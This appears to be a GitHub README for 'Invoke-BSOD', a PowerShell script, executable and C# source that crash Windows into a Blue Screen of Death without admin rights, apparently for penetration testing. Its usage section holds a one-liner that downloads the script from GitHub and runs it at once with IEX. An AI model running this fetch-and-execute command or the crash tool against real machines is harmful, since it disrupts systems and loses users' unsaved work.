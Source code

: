 # Invoke-BSOD
For when you want a computer to be done - without admin!

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges.

This is a standalone script, **it does not depend on any other files here.**

Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Invoke-BSOD
```
OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also create a Blue Screen of Death.

### Program.cs

The C# source behind BSOD.exe
